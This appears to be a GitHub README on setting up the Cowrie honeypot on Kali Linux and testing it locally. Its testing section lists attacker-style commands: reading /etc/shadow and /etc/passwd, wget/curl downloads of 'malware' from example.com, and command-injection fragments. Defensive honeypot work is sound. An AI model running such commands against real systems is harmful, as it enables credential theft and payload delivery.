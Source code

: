# Project Title: Setting Up and Testing a Honeypot

Here we will use cowrie honeypot software and Linux (kali) distribution system for setting up and testing honeypot

## Steps to Install and Configure Cowrie

### Step 1: Update the System
We need to make sure that system is up to date.

**sudo apt-get update**
**sudo apt-get upgrade -y**



### Step 2: Install Dependencies
Install the necessary dependencies for Cowrie.

**sudo apt-get install git python3-virtualenv libssl-dev libffi-dev build-essential -y**


### Step 3: Clone the Cowrie Repository
Clone the Cowrie repository from GitHub.

**git clone https://github.com/cowrie/cowrie**
**cd cowrie**

### Step 4: Set Up the Virtual Environment
Create and activate a virtual environment for Cowrie.

**virtualenv --python=python3 cowrie-env**
**source cowrie-env/bin/activate**


### Step 5: Install Python Dependencies
Install the required Python packages using the provided `requirements.txt` file.

**pip install --upgrade pip**
**pip install -r requirements.txt** 

### Step 6: Configure Cowrie
Copy the default configuration file and edit it to your needs.

**cp etc/cowrie.cfg.dist etc/cowrie.cfg**
**nano etc/cowrie.cfg**

#### Configuration Example:

Setting up configuration by editing the etc/cowrie.cfg file by following:

[honeypot]

hostname = honeypot-server

[ssh]

enabled = true
listen_port = 2222  # Non-standard port to avoid conflicts

[telnet]

enabled = true
listen_port = 2223  # Non-standard port to avoid conflicts

[output_textlog]

enabled = true
logfile = log/cowrie.log

[output_jsonlog]

enabled = true
logfile = log/cowrie.json

### Step 7: Start Cowrie

Start Cowrie using the provided scripts.

**bin/cowrie start**


### Step 8: Verify Cowrie is Running

Check the logs to ensure Cowrie started correctly.

**tail -f log/cowrie.log**


## Testing Honeypot:

Now for testing we try to log in by using tcp or ssh, and execute commands or download file.

#### Basic SSH Connection

First, connect to the Cowrie honeypot via SSH or telnet:

**ssh root@localhost -p 2222**

or

t**elnet root@loaclhost 2222**

#### Directory Navigation

Navigate through directories and list contents:

**cd /home**

**ls**

**cd /**

**ls**

#### Reading Files
Attempt to read common files:

**cat /etc/passwd**

**cat /etc/hosts**

**cat /etc/shadow**

#### File Downloads

Simulate file download attempts using wget or curl:

**wget http://example.com/malware**

**curl -O http://example.com/malware**

#### File Uploads
Attempt to upload files using scp:

**scp localfile.txt root@localhost:/tmp -P 2222**

#### Command Injection

Try command injection techniques to see how Cowrie logs these:

**; ls**

**&& whoami**

**| uname -a**


#### Network Scanning

Simulate network scanning commands:

**nmap localhost**

**ping -c 4 google.com**

**Create and Edit Files**

**Create and edit files to see how file operations are logged:**

**echo "Honeypot test" > /tmp/testfile.txt**

**nano /tmp/testfile.txt**

These will generate below like Log Messages:

Typical Log Messages

1. Connection Attempts:
    - Logs indicating new connections to the honeypot.
    - Source IP addresses and ports.

2. Login Attempts:
    - Successful and failed login attempts.
    - Usernames and passwords used.

3. Command Execution:
   - Commands executed by attackers.
   - Commands that failed or were not found.

4. File Downloads:
    - Attempts to download files.
    - URLs and filenames involved.

Example Log Scenario
1.	New Connection:

**2024-06-06T10:34:56.123456+0000 [cowrie.ssh.factory.CowrieSSHFactory] New connection: 192.168.1.100:2222 (192.168.0.107:12345) [session: TT000001]**

2.	Login Attempt:

**2024-06-06T12:35:01.123456+0000 [cowrie.ssh.factory.CowrieSSHFactory] login attempt [root/root] succeeded**

3.	Command Execution:

**2024-06-06T10:35:03.123456+0000 [SSHService 'ssh-connection'] executing command "ls"**

4.	Failed Command:
**2024-06-06T10:35:05.123456+0000 [SSHService 'ssh-connection'] Command not found: 'wget'**


We can monitor these types of logs to observe the suspicious behavior, attacks or unauthorized activity and safeguard the system by taking measure accordingly.
